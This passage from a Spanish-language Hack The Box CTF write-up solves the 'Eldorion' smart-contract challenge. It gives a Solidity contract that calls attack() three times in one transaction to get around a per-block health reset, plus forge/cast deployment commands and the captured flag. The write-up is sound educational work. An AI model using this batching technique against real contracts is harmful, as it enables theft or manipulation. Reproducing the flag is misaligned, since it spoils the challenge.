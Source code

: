 Este comportamiento es una limitación conocida de las EOAs (Externally Owned Accounts), pero se puede evitar fácilmente usando un contrato inteligente.

Un contrato puede hacer varias llamadas en la **misma transacción**, por lo que todos los `attack()` ocurren dentro del mismo bloque con el mismo `block.timestamp`, evitando que `eternalResilience()` restaure la vida entre ataques.

La solución es atacar tres veces en la misma transacción:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import { Eldorion } from "./Eldorion.sol"; 

contract Exploit {
    function win(address _target) public {
        Eldorion eldorion = Eldorion(_target);
        eldorion.attack(100);
        eldorion.attack(100);
        eldorion.attack(100);

        require(eldorion.isDefeated(), "Eldorion is not defeated");
    }
}
```

---

### Despliegue y ejecución

```bash
forge build
forge create src/Exploit.sol:Exploit --rpc-url $RPC --private-key $PVK
cast send $EXPLOIT "win(address)" $TARGET --rpc-url $RPC --private-key $PVK
```

Con esto, Eldorion queda derrotado.

---

## Validación

Conectándonos nuevamente al sistema:

```bash
nc $IP $PORT
1 - Get connection information
2 - Restart instance
3 - Get flag
```

Y al elegir la opción 3 nos dará la flag.

```
HTB{w0w_tr1pl3_hit_c0mbo_ggs_y0u_defe4ted_Eld0r10n}
```

---